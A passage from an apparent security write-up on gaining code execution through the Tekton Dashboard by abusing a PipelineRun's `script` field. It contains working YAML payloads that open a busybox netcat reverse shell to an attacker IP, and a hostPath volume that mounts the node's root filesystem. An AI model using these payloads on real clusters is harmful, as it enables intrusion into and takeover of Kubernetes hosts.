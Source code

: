 The `script` key immediately spiked my interest and it was indeed possible to execute arbitrary commands so I went for a shell with:

```yaml
script: >
  #!/usr/bin/env sh

  busybox nc 192.168.58.1 8000 -e /bin/sh
```

RCE is nice but I thought this looks a lot like a normal pod definition, can it do anything malicious like mounting the nodes filesystem?

I tried to get a minimal PipelineRun by repeatedly removing potentially unimportant lines until it breaks, which led me to:

```yaml
apiVersion: tekton.dev/v1
kind: PipelineRun
metadata:
  annotations: {}
  generateName: import-resources-1727367416567-2nr95-r-
  labels:
    dashboard.tekton.dev/import: 'true'
    dashboard.tekton.dev/rerunOf: import-resources-1727367416567-2nr95-r-qxptt
  namespace: tekton-dashboard
spec:
  pipelineSpec:
    tasks:
      - name: fetch-repo
        taskSpec:
          metadata: {}
          spec: null
          steps:
            - computeResources: {}
              image: busybox:latest
              name: clone
              script: |
                #!/usr/bin/env sh 
                busybox nc 192.168.49.1 8000 -e /bin/sh
  taskRunTemplate:
    serviceAccountName: default
```

Now we can just mount the hosts filesystem with:
```yaml
#...
    tasks:
      - name: fetch-repo
        taskSpec:
          metadata: {}
          spec: null
          steps:
            - computeResources: {}
              image: busybox:latest
              name: clone
              script: |
                #!/usr/bin/env sh 
                busybox nc 192.168.49.1 8000 -e /bin/sh
              volumeMounts:
                - mountPath: /var/noderoot
                  name: noderoot
          volumes:
            - hostPath:
                path: /
              name: noderoot
  taskRunTemplate:
```